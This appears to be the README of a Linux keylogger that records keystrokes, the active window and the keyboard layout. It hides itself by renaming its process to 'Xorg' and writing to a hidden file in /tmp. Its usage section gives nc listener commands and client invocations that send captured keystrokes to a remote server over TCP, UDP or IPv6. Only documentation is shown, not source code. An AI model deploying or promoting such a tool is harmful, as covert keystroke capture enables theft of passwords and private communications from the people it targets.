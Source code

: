 # SimpleLocal&RemoteKeylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:                  If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:                   It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:   It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```
##NOTES:
####Supported Keyboards:
- QWERTY: us, es, it. 
- AZERTY: fr.
- QWERTZ: de.
- DVORAK: us.
- COLEMAK
- default: qwerty-us


